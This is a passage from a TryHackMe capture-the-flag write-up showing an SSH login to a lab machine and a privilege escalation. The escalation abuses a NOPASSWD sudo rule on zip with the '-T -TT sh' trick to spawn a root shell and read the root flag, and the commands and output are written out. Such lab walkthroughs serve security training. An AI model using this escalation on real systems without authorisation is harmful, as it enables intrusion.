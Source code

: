 ```
root@kali:~/TryHackMe# ssh merlin@10.10.7.42
merlin@10.10.7.42's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Tue Mar 10 22:56:49 2020 from 192.168.85.1
merlin@ubuntu:~$ 
```


## Privilege Escalation

**root.txt**

```
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root/
# ls
root.txt  ufw
# cat root.txt
THM{Z1P_1S_FAKE}
```